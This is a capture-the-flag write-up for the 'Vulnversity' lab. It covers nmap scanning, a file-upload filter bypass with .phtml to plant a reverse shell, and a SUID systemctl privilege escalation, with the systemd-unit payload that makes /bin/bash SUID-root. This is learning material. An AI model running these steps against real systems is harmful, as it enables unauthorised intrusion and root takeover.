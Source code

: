 # WriteUp for Vulnversity


Nmap Cheatsheet
```
-sV	Attempts to determine the version of the services running
-p <x> or -p-	Port scan for port <x> or scan all ports
-Pn	Disable host discovery and just scan for open ports
-A	Enables OS and version detection, executes in-build scripts for further enumeration 
-sC	Scan with the default nmap scripts
-v	Verbose mode
-sU	UDP port scan
-sS	TCP SYN port scan
-n  Will not resolve DNS
```
We see that port 3333 has webserver running which we can exploit using dirsearch, through which we found /internal/ upload page.

For checking the allowed extentions we can use BurSuite but we can automate it with python like (this)[extention_checker.py] and from this we find that .phtml is a valid extention.
So we can upload our revshell and start is from /uploads directory while listening on the port with netcat.

On finding the connection we can get the /home/bill/user.txt.

In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).

![image](Suid.jpg)

Command to find all the SUID files
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>dev/null
```
/bin/systemctl is not a normal SUID binary.
```
-rwsr-xr-x 1 root root 659856 Feb 13  2019 systemctl
```
We can find a way to exploit this on GTFO bins.
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
bin/systemctl link $TF
bin/systemctl enable --now $TF
```
Now if we run ```bash -p```, now we are root.
And we can access /root.txt.